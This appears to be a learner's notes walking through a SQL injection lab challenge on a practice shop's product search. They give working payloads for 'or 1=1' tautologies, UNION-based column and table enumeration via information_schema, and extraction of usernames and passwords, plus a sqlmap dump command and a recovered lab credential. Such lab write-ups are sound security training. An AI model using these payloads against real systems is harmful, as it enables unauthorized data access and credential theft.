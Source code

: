 #sql 
### Identify If SQL injection Exists
* From main product page, sent normal requst in search bar, matching, Senapi Knife Set
* Sent this successful POST to repeater
* testing with SQL injection
```shell
# original Content-Length: 2516
product=Senpai+Knife+Set
# testing
product=Senpai+Knife+Set'
product=Senpai+Knife+Set'
# Success!!  Content-Length: 4946
# All products returned
product=Senpai+Knife+Set' or 1=1#

' # can also test with any value, then or 1=1#
x' or 1=1#
```
### Union to Identify columns
```shell
# I kept adding more null entries here until I got something back
product=Senpai+Knife+Set' union select null,null,null,null#
' # this makes sense because there is a title, image,price,description
product=Senpai+Knife+Set' union select null,null,null,version()#
```
* Version is showing as mysql 8.0.40
* Now that we identified the queries columns, lets get more data
```shell
# Dump the DB tables
product=Senpai+Knife+Set' union select null,null,null,table_name from information_schema.tables#
```
Found the USERS  tables  
* injection0x03_users
```shell
# dump the columns
product=Senpai+Knife+Set' union select null,null,null,column_name from information_schema.columns#
```
* column name of 'NAME', 'USER', 'username', 'password','ENCRYPTION'
* I added the following to the end of the SQL query, and I think this gave me all the columns from the injection0x03_users table 
```shell
' union select null,null,null,column_name from information_schema.columns#; SHOW COLUMNS FROM injection0x03_users#
```
* Injection0x03 table

| username | password | email            |
| -------- | -------- | ---------------- |
| stuff    | no idea  | noidea@gmail.com |
* Now we have a table name, and columns in the table, we can retry our union selection, modified slightly to see if we can just read the table
```shell
product=Senpai Knife Set' UNION ALL SELECT username,password,NULL,NULL FROM injection0x03_users-- -
```
* Success, we get a username password of 
	* user=  takeshi  pass =  onigirigadaisuki 

## Easy from WALKTHROUGH
```
product=Senpai Knife Set' UNION SELECT NULL,NULL,NULL,username FROM injection0x03_users#

product=Senpai Knife Set' UNION SELECT NULL,NULL,NULL,password FROM injection0x03_users#
```

Trying again with 
`sqlmap -r req3.txt --level=2 --dump -T injection0x03_users`
* The req is modified, so the product= was removed, and dummy data was input there.. 
	* product=test
* since we know the table name already, we can provide that as input.

we get the table dumped as output

![[4 - SQL Injection Challenge-table dump.png]]




